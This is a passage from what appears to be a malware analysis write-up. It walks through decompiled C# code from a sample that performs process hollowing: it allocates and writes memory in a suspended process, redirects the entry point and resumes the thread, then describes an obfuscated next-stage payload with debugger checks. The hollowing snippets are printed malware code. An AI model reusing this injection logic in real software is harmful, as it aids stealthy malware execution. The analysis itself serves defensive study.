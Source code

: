```cs
}
```

&rarr; Basic thread context manipulation is done here and the memory is unmapped to make space for the payload.
```cs
int num8 = API.VirtualAllocEx_API(process_INFORMATION.ProcessHandle, num2, num6, 12288, 64);
if (num8 == 0)
{
    throw new Exception();
}
if (!API.WriteProcessMemory_API(process_INFORMATION.ProcessHandle, num8, data, num7, ref num5))
{
    throw new Exception();
}
```
&rarr; This allocates the memory in the process using **VirtualAllocEx** and writes the payload using **WriteProcessMemory**. Just the standard stuff.
```cs
byte[] bytes = BitConverter.GetBytes(num8);
if (!API.WriteProcessMemory_API(process_INFORMATION.ProcessHandle, num3 + 8, bytes, 4, ref num5))
{
    throw new Exception();
}
if (API.ResumeThread_API(process_INFORMATION.ThreadHandle) == -1)
{
    throw new Exception();
}

```
&rarr; Here the entry point of the process is adjusted nichely making sure when the process is resumed, it executes the malicious code. Later on the thread is resumed.

- This technique used by the threat actor is called **Process Hollowing** and is sophisticated in nature. If you wish to read more about the technique you can refer to the blog [here](https://attack.mitre.org/techniques/T1055/012/).

### Phase 4
- We can dump the next stage payload either running the DLL using RunDotNetDLL or like the cool nerds we are, we can download the payload directly from the URL(don't recommend).
![Chef](https://cdn-images-1.medium.com/v2/resize:fit:800/1*S1wFO6y-W7fWyfTc-XHQkw.png "Chef")

- The payload is heavily packed obfuscated .Net file, even running tools like de4dot fails as it's got anti de4dot.
- Even though code is very bad to understand, we can see some references to API hashing and other .

![API](https://cdn-images-1.medium.com/v2/resize:fit:800/1*tQNVp3fTZTWroogckGfsAQ.png "API")
![DBG](https://cdn-images-1.medium.com/v2/resize:fit:800/1*xnYhDoEM6a-kNQGl5XdJXA.png "DBG")
*Presence of Debugger Check*
![DBG](https://cdn-images-1.medium.com/v2/resize:fit:800/1*S2pzPj6fV89cWbYeqLzWDA.png "DBG")
